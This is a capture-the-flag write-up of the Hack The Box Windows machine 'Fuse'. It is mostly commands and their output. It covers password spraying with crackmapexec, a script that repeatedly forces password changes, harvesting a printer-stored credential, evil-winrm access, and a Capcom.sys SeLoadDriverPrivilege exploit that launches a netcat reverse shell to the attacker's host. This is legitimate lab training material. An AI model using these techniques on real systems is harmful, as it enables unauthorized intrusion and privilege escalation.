





---
search:
  exclude: true
---
# Fuse Writeup

## Introduction :

Fuse is a Medium Windows box released back in June 2020.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB]
    → nmap -vvv -p- 10.10.10.193 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered
    Discovered open port 636/tcp on 10.10.10.193
    Discovered open port 593/tcp on 10.10.10.193
    Discovered open port 9389/tcp on 10.10.10.193
    Discovered open port 49680/tcp on 10.10.10.193
    Discovered open port 5985/tcp on 10.10.10.193
    Discovered open port 49675/tcp on 10.10.10.193
    Discovered open port 49698/tcp on 10.10.10.193
    Discovered open port 88/tcp on 10.10.10.193
    Discovered open port 3269/tcp on 10.10.10.193
    Discovered open port 49666/tcp on 10.10.10.193
    Discovered open port 3268/tcp on 10.10.10.193
    Discovered open port 49667/tcp on 10.10.10.193
    Discovered open port 464/tcp on 10.10.10.193
    Discovered open port 49676/tcp on 10.10.10.193
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB]
    → nmap  10.10.10.193 -Pn -sCV
    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-25 13:35 CEST
    Nmap scan report for 10.10.10.193
    Host is up (0.47s latency).
    Not shown: 988 filtered ports
    PORT     STATE SERVICE      VERSION
    53/tcp   open  domain       Simple DNS Plus
    80/tcp   open  http         Microsoft IIS httpd 10.0
    | http-methods:
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/10.0
    |_http-title: Site doesn't have a title (text/html).
    88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2021-06-25 11:57:23Z)
    135/tcp  open  msrpc        Microsoft Windows RPC
    139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
    389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
    445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: FABRICORP)
    464/tcp  open  kpasswd5?
    593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
    636/tcp  open  tcpwrapped
    3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
    3269/tcp open  tcpwrapped
    Service Info: Host: FUSE; OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Host script results:
    |_clock-skew: mean: 2h41m07s, deviation: 4h02m31s, median: 21m05s
    | smb-os-discovery:
    |   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
    |   Computer name: Fuse
    |   NetBIOS computer name: FUSE\x00
    |   Domain name: fabricorp.local
    |   Forest name: fabricorp.local
    |   FQDN: Fuse.fabricorp.local
    |_  System time: 2021-06-25T04:57:53-07:00
    | smb-security-mode:
    |   account_used: 
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: required
    | smb2-security-mode:
    |   2.02:
    |_    Message signing enabled and required
    | smb2-time:
    |   date: 2021-06-25T11:57:51
    |_  start_date: 2021-06-25T11:49:12
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 108.41 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 so let's investigate it: 
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB]
    → curl http://10.10.10.193
    <****meta http-equiv="refresh" content="0; url=http://fuse.fabricorp.local/papercut/logs/html/index.htm" />%

Here we see that it's only a redirection to **fuse.fabricorp.local** so let's add it to our hosts file: 
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB]
    → sudo -i
    [sudo] password for nothing:
    ┌──(root💀nowhere)-[~]
    └─# echo '10.10.10.193 fuse.fabricorp.local fabricorp.local' >> /etc/hosts
    
    ┌──(root💀nowhere)-[~]
    └─# ping -c1 fuse.fabricorp.local ; ping -c1 fabricorp.local
    PING fuse.fabricorp.local (10.10.10.193) 56(84) bytes of data.
    64 bytes from fuse.fabricorp.local (10.10.10.193): icmp_seq=1 ttl=127 time=465 ms
    
    --- fuse.fabricorp.local ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 465.107/465.107/465.107/0.000 ms
    PING fuse.fabricorp.local (10.10.10.193) 56(84) bytes of data.
    64 bytes from fuse.fabricorp.local (10.10.10.193): icmp_seq=1 ttl=127 time=472 ms
    
    --- fuse.fabricorp.local ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 471.894/471.894/471.894/0.000 ms
    
    ┌──(root💀nowhere)-[~]
    └─# exit
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB]
    →
    

**fabricorp.local** redirects to **fuse.fabricorp.local** which gets us an instance of PaperCut print logger: 

We click 'view' on each of the print logs and we can get a list of users with it:

  

We can run gobuster on both domains but we don't find anything interesting, so instead we're going to use ldapsearch:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/Fuse]
    → ldapsearch -h 10.10.10.193 -x -s base namingcontexts
    # extended LDIF
    #
    # LDAPv3
    # base  (default) with scope baseObject
    # filter: (objectclass=*)
    # requesting: namingcontexts
    #
    
    #
    dn:
    namingContexts: DC=fabricorp,DC=local
    namingContexts: CN=Configuration,DC=fabricorp,DC=local
    namingContexts: CN=Schema,CN=Configuration,DC=fabricorp,DC=local
    namingContexts: DC=DomainDnsZones,DC=fabricorp,DC=local
    namingContexts: DC=ForestDnsZones,DC=fabricorp,DC=local
    
    # search result
    search: 2
    result: 0 Success
    
    # numResponses: 2
    # numEntries: 1
    

enumerating ldap further doesn't get us anything either, let's make a wordlist using cewl:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/Fuse]
    → cewl http://fuse.fabricorp.local/papercut/logs/html/index.htm --with-numbers > wordlist
    
    [ 10.66.66.2/32 ] [ /dev/pts/24 ] [~/HTB/Fuse]
    → cat users.txt
    bhult
    administrator
    sthompson
    pmerton
    tlavel
    
    [ 10.66.66.2/32 ] [ /dev/pts/24 ] [~/HTB/Fuse]
    → cat wordlist
    CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
    Print
    2020
    PaperCut
    Logs
    MFT01
    PCL6
    CSV
    Excel
    Logger
    LETTER
    NOT
    DUPLEX
    GRAYSCALE
    papercut
    com
    
    [...]
    

Now let's use crackmapexec to spray the potential passwords on the potential users: 
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/24 ] [~/HTB/Fuse]
    → crackmapexec -t 50 smb 10.10.10.193 -u users.txt -p wordlist
    SMB         10.10.10.193    445    FUSE             [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/) STATUS_LOGON_FAILURE
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:Print STATUS_LOGON_FAILURE
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:2020 STATUS_LOGON_FAILURE
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:PaperCut STATUS_LOGON_FAILURE
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:Logs STATUS_LOGON_FAILURE
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:MFT01 STATUS_LOGON_FAILURE
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:PCL6 STATUS_LOGON_FAILURE
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:CSV STATUS_LOGON_FAILURE
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:Excel STATUS_LOGON_FAILURE
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:Logger STATUS_LOGON_FAILURE
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:LETTER STATUS_LOGON_FAILURE
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:NOT STATUS_LOGON_FAILURE
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:DUPLEX STATUS_LOGON_FAILURE
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:GRAYSCALE STATUS_LOGON_FAILURE
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:papercut STATUS_LOGON_FAILURE
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:com STATUS_LOGON_FAILURE
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:http STATUS_LOGON_FAILURE
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:www STATUS_LOGON_FAILURE
    
    

Yeah this will take forever because 1) hydra isn't able to connect to smb for some reason: 
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/24 ] [~/HTB/Fuse]
    → sudo hydra -L users.txt -P wordlist fabricorp.local smb
    [sudo] password for nothing:
    Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
    
    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-25 14:11:10
    [INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
    [DATA] max 1 task per 1 server, overall 1 task, 850 login tries (l:5/p:170), ~850 tries per task
    [DATA] attacking smb://fabricorp.local:445/
    [ERROR] no reply from target smb://fabricorp.local:445/
    
    [ 10.66.66.2/32 ] [ /dev/pts/24 ] [~/HTB/Fuse]
    → sudo hydra -L users.txt -P wordlist 10.10.10.193 smb
    Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
    
    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-25 14:11:35
    [INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
    [DATA] max 1 task per 1 server, overall 1 task, 850 login tries (l:5/p:170), ~850 tries per task
    [DATA] attacking smb://10.10.10.193:445/
    [ERROR] no reply from target smb://10.10.10.193:445/
    
    

And crackmapexec isn't able to accept the threads flag, it will remain single-threaded and agonizingly slow, so after an eternity of waiting you will get crackmapexec finding that 2 users have the same password:
    
    
    tlavel:Fabricorp01
    bhult:Fabricorp01
    
    

Now with these we try to check for shares we get a problem:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/24 ] [~/HTB/Fuse]
    → smbmap -u tlavel -p Fabricorp01 -H 10.10.10.193
    [!] Authentication error on 10.10.10.193
    
    [ 10.66.66.2/32 ] [ /dev/pts/24 ] [~/HTB/Fuse]
    → smbmap -u bhult -p Fabricorp01 -H 10.10.10.193
    [!] Authentication error on 10.10.10.193
    
    [ 10.66.66.2/32 ] [ /dev/pts/24 ] [~/HTB/Fuse]
    → smbclient -U bhult -L \\\\10.10.10.193
    Enter WORKGROUP\bhult's password:
    session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
    
    

As we see from the last error we need a Password change, so let's use **smbpasswd** to change them: 
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/24 ] [~/HTB/Fuse]
    → sudo smbpasswd -r 10.10.10.193 bhult
    Old SMB password: Fabricorp01
    New SMB password: nihilist!!!!!!!
    Retype new SMB password: nihilist!!!!!!!
    Password changed for user bhult on 10.10.10.193.
    
    

now the problem is, the users password get reset every minute, so we need to make a script to make it easier to change the password to what we want quickly: 
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/37 ] [~/HTB/Fuse]
    → vim passchange.py
    
    [ 10.66.66.2/32 ] [ /dev/pts/37 ] [~/HTB/Fuse]
    → cat passchange.py
    #!/usr/bin/env python3
    import subprocess
    from random import randint
    
    password = b"Fabricorp01"
    
    # Use smbpasswd to change the password of the user
    def change_pw(username, old_pw, password):
        proc = subprocess.Popen([b"smbpasswd", b"-U", username, b"-r", b"10.10.10.193"], stdin=subprocess.PIPE)
        proc.communicate(input=old_pw + b"\n" + password + b'\n' + password + b'\n')
    
    users = [b"tlavel"]
    old_pw = password
    password = b"nihilist!!!123456789" + bytes([randint(33,126)])
    
    print(f"[+] Changing to: {password.decode()}")
    for user in users:
            change_pw(user,old_pw,password)
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/37 ] [~/HTB/Fuse]
    → python3 passchange.py
    [+] Changing to: nihilist!!!123456789P
    Old SMB password:
    New SMB password:
    Retype new SMB password:
    Password changed for user tlavel
    
    

So now we have a script which changes the password when we need it, also take note that the password must NOT be the same password it ONCE was before, so that's why we need to add a random character after our password to make sure it is always a new password.
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/37 ] [~/HTB/Fuse]
    → python3 passchange.py
    [+] Changing to: nihilist!!!123456789P
    Old SMB password:
    New SMB password:
    Retype new SMB password:
    Password changed for user tlavel
    
    [ 10.66.66.2/32 ] [ /dev/pts/37 ] [~/HTB/Fuse]
    → python3 passchange.py
    [+] Changing to: nihilist!!!123456789&
    Old SMB password:
    New SMB password:
    Retype new SMB password:
    Password changed for user tlavel
    

If you get password errors when you try to login just keep changing the password and trying, and you will get it at some point, we login via RPC: 
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/37 ] [~/HTB/Fuse]
    → python3 passchange.py
    [+] Changing to: nihilist!!!123456789v
    Old SMB password:
    New SMB password:
    Retype new SMB password:
    Password changed for user tlavel
    
    [ 10.66.66.2/32 ] [ /dev/pts/37 ] [~/HTB/Fuse]
    → rpcclient -U tlavel -r 10.10.10.193
    Enter WORKGROUP\tlavel's password:
    rpcclient $> enumdomusers
    user:[Administrator] rid:[0x1f4]
    user:[Guest] rid:[0x1f5]
    user:[krbtgt] rid:[0x1f6]
    user:[DefaultAccount] rid:[0x1f7]
    user:[svc-print] rid:[0x450]
    user:[bnielson] rid:[0x451]
    user:[sthompson] rid:[0x641]
    user:[tlavel] rid:[0x642]
    user:[pmerton] rid:[0x643]
    user:[svc-scan] rid:[0x645]
    user:[bhult] rid:[0x1bbd]
    user:[dandrews] rid:[0x1bbe]
    user:[mberbatov] rid:[0x1db1]
    user:[astein] rid:[0x1db2]
    user:[dmuir] rid:[0x1db3]
    rpcclient $> enumprinters
            flags:[0x800000]
            name:[\\10.10.10.193\HP-MFT01]
            description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
            comment:[]
    
    rpcclient $>
    

Now Here we have a new list of users and a printer that has apparently shows us credentials just like that, so we're going to make a new list of usernames, and try that password on each of them:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/Fuse]
    → cat usernames.txt
    Administrator
    Guest
    krbtgt
    DefaultAccount
    svc-print
    bnielson
    sthompson
    tlavel
    pmerton
    svc-scan
    bhult
    dandrews
    mberbatov
    astein
    dmuir
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/Fuse]
    → cat password.txt
    $fab@s3Rv1ce$1
    
    

This time it won't take forever when we try to spray that password with crackmapexec: 
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/Fuse]
    → crackmapexec -t 50 smb 10.10.10.193 -u usernames.txt -p password.txt
    SMB         10.10.10.193    445    FUSE             [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\Administrator:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\Guest:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\krbtgt:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\DefaultAccount:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE
    SMB         10.10.10.193    445    FUSE             [+] fabricorp.local\svc-print:$fab@s3Rv1ce$1
    

And we got credentials! **svc-print:$fab@s3Rv1ce$1**. So let's spawn an evil-winrm session: 
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/1 ] [~/HTB/Fuse]
    → evil-winrm -u svc-print -p '$fab@s3Rv1ce$1' -i 10.10.10.193
    
    Evil-WinRM shell v2.4
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\svc-print\Documents> cd ../Desktop
    *Evil-WinRM* PS C:\Users\svc-print\Desktop> type user.txt
    2cXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And there you go! We managed to get the user flag. 

## **Part 3 : Getting Root Access**

Now in order to privesc to the root user we're going to upload winPEAS.ps1 to the box: 
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/24 ] [~/HTB/Fuse]
    → locate winPEAS.ps1
    /home/nothing/HTB/Buff/Invoke-winPEAS.ps1
    /home/nothing/HTB/Omni/SirepRAT/Invoke-winPEAS.ps1
    /home/nothing/HTB/Sauna/Invoke-winPEAS.ps1
    /usr/share/powershell-empire/data/module_source/privesc/Invoke-winPEAS.ps1
    
    [ 10.66.66.2/32 ] [ /dev/pts/24 ] [~/HTB/Fuse]
    → cp /usr/share/powershell-empire/data/module_source/privesc/Invoke-winPEAS.ps1 peas.ps1
    
    [ 10.66.66.2/32 ] [ /dev/pts/24 ] [~/HTB/Fuse]
    → ls -lash peas.ps1
    228K -rw-r--r-- 1 nothing nothing 228K Jun 25 15:00 peas.ps1
    
    

We can upload it easily using evil-winrm's built in upload function: 
    
    
    *Evil-WinRM* PS C:\Users\svc-print\Desktop> mkdir C:\temp\
    
    
        Directory: C:\
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----        6/25/2021   6:22 AM                temp
    
    
    *Evil-WinRM* PS C:\Users\svc-print\Desktop> cd C:\temp
    *Evil-WinRM* PS C:\temp> upload peas.ps1
    Info: Uploading peas.ps1 to C:\temp\peas.ps1
    
    
    Data: 310740 bytes of 310740 bytes copied
    
    Info: Upload successful!
    
    *Evil-WinRM* PS C:\temp> Import-Module .\peas.ps1
    *Evil-WinRM* PS C:\temp> Invoke-WinPEAS
    

Now since we're in Evil-WinRM this will take a while to display results, but once it's done you will see the following: 

Scrolling through winPEAS's output we see the following:

So here we get a hint that we need to dig deeper into a possible **SeLoadDriverPrivilege** exploit, and we find [this article](https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/) about how to exploit this privilege using the **Capcom.sys** driver. So we're going to use [this exploit](https://github.com/clubby789/ExploitCapcom/releases/tag/1.0) which was made by clubby789, and the [Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys) file:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/24 ] [~/HTB/Fuse]
    → wget https://github.com/FuzzySecurity/Capcom-Rootkit/raw/master/Driver/Capcom.sys
    
    [ 10.66.66.2/32 ] [ /dev/pts/24 ] [~/HTB/Fuse]
    → wget https://github.com/clubby789/ExploitCapcom/releases/download/1.0/ExploitCapcom.exe
    
    [ 10.66.66.2/32 ] [ /dev/pts/24 ] [~/HTB/Fuse]
    → cp /home/nothing/HTB/Servmon/nc.exe .
    
    

We're also going to need the netcat binary to get a reverse shell, we then upload all of these into the C:\temp directory we created earlier: 
    
    
    *Evil-WinRM* PS C:\temp> upload Capcom.sys
    Info: Uploading Capcom.sys to C:\temp\Capcom.sys
    
    
    Data: 14100 bytes of 14100 bytes copied
    
    Info: Upload successful!
    
    *Evil-WinRM* PS C:\temp> upload ExploitCapcom.exe
    Info: Uploading ExploitCapcom.exe to C:\temp\ExploitCapcom.exe
    
    
    Data: 387752 bytes of 387752 bytes copied
    
    Info: Upload successful!
    
    *Evil-WinRM* PS C:\temp>
    
    

And now we run the exploit to load the Capcom.sys driver first, and then we will execute it again but with the netcat binary to get a reverse shell: 
    
    
    *Evil-WinRM* PS C:\temp> ls
    
    
        Directory: C:\temp
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----        6/25/2021   6:33 AM          10576 Capcom.sys
    -a----        6/25/2021   6:34 AM         290816 ExploitCapcom.exe
    -a----        6/25/2021   6:35 AM          59392 nc.exe
    -a----        6/25/2021   6:22 AM         233056 peas.ps1
    
    *Evil-WinRM* PS C:\temp> .\ExploitCapcom.exe LOAD C:\temp\Capcom.sys
    [*] Service Name: dzkpfqeuàù/îï
    [+] Enabling SeLoadDriverPrivilege
    [+] SeLoadDriverPrivilege Enabled
    [+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\???????????????????
    NTSTATUS: 00000000, WinError: 0
    
    *Evil-WinRM* PS C:\temp> .\ExploitCapcom.exe EXPLOIT "C:\temp\nc.exe 10.10.14.11 9002 -e powershell.exe"
    [*] Capcom.sys exploit
    [*] Capcom.sys handle was obtained as 0000000000000064
    [*] Shellcode was placed at 0000024EFED40008
    [+] Shellcode was executed
    [+] Token stealing was successful
    [+] Command Executed
    

And we catch the reverse shell connection with a netcat listener: 
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/36 ] [~/HTB/Fuse]
    → nc -lvnp 9002
    listening on [any] 9002 ...
    connect to [10.10.14.11] from (UNKNOWN) [10.10.10.193] 50794
    Windows PowerShell
    Copyright (C) 2016 Microsoft Corporation. All rights reserved.
    
    PS C:\temp> whoami
    whoami
    nt authority\system
    PS C:\temp> cd ..
    cd ..
    PS C:\> cd Users\Administrator\Desktop
    cd Users\Administrator\Desktop
    PS C:\Users\Administrator\Desktop> type root.txt
    type root.txt
    aeXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We managed to get a reverse shell as Administrator, and got the root flag. 

## **Conclusion**

Here we can see the progress graph :

